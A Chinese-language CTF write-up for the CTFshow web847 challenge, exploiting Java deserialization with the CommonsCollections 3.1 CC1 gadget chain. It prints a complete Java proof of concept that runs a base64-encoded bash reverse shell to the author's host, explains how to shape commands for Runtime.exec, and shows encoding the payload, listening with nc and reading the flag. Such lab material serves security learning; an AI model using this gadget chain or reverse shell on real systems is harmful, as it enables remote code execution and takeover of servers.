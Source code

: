 ```yaml
---
date: 2024-06-22
categories: 
    - CTFshow 
tags:
    - CTF
    - Java 反序列化
    - CommonCollections
---
```


# 每日一题 —— [CTFshow]web847

> 题目地址：<https://ctf.show/challenges#web847-3922>

<!-- more -->

打开这道题，告诉了我们这个题目的环境是 `JDK7` 以及 `CommonCollections 3.1` 的环境。也就是说，我们可以直接使用 CC1 链来进行攻击。我们这次不使用 `ysoserial` 而是使用我之前[那篇博客](https://www.sxrhhh.top/blog/2024/06/22/learning-java-cc1-transformedmap/)写好的 POC 直接改一下执行的命令就可以使用了。

先来看一下我们的总体的 POC：

```java
public static void main(String[] args) throws IOException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, ClassNotFoundException, InstantiationException {
    // 构造 chainedTransformer
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC93d3cuc3hyaGhoLnRvcC8yMzMzIDA+JjE=}|{base64,-d}|bash"}),
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

    // 构造 transformedMap
    HashMap<Object, Object> map = new HashMap<>();
    map.put("value", "value");
    Map<Object, Object> transformedMap = (Map) TransformedMap.decorate(map, null, chainedTransformer);

    // 构造 annotationInvocationHandler 然后序列化
    Class annotationInvocationHdl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = annotationInvocationHdl.getDeclaredConstructor(Class.class, Map.class);
    constructor.setAccessible(true);
    Object obj = constructor.newInstance(Target.class, transformedMap);

    serialize(obj, "ser.bin");
}
```

和之前博客里唯一不一样的地方就是：写进最后一个 `InvokerTransformer` 的危险命令，已经被改成了长长的一段：`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC93d3cuc3hyaGhoLnRvcC8yMzMzIDA+JjE=}|{base64,-d}|bash`

解码中间这个 Base64 密文，就是 `bash -i >& /dev/tcp/www.sxrhhh.top/2333 0>&1`，一串最基本的反弹 shell. 但是如果把整个字符串，带上前面的 `bash -c` 的话，就会导致执行无法成功。这个和 `Runtime.exec()` 方法的解析有关。它会按空格把整个字符串截取。具体细节可以参考[这篇博客](https://www.cnblogs.com/BOHB-yunying/p/15523680.html)，总之我们应该尽量把命令字符串控制为 —— 命令名称、命令选项、命令参数 这三段。

对于我们在 Java 上的反弹 shell 来说，最简便的方法就是： `bash -c {echo,xxxbash64}|{base64,-d}|bash` 。将其中 `xxxbase64` 替换成要执行的命令即可。这两个空格将字符串分为三段，分别被 `exec` 解析然后执行。**如果说想要在 bash 环境下执行这条命令的话，那么你需要手动给第三段加上双引号，让 shell 知道第三段是字符串**

现在我们已经在当前文件夹获得了这个叫做 `ser.bin` 的文件。我们现在需要把他转成 base64 的形式:

```bash
cat ser.bin | base64 -w 0
``` 

然后复制它输出的 base64 编码，给题目中的 `ctfshow` 的 POST 参数传进去。**切记需要进行 urlencode 编码，否则有一堆问题**

在发送请求之前，我们打开我们的 VPS ，输入 `nc -lvvp 2333` 监听我们的 2333 端口。然后把 payload 发送给靶场，如果没有问题，靶场会返回以下界面（用 ysoserial 生成的 payload 会报一个小错，但不影响） :

![](https://repo.sxrhhh.top/undefined20240622163824.png)

然后看一眼 VPS ，只要没有问题，多等待一会，就可以 getshell 了。执行 `cat /flag` 就可以得到 flag。
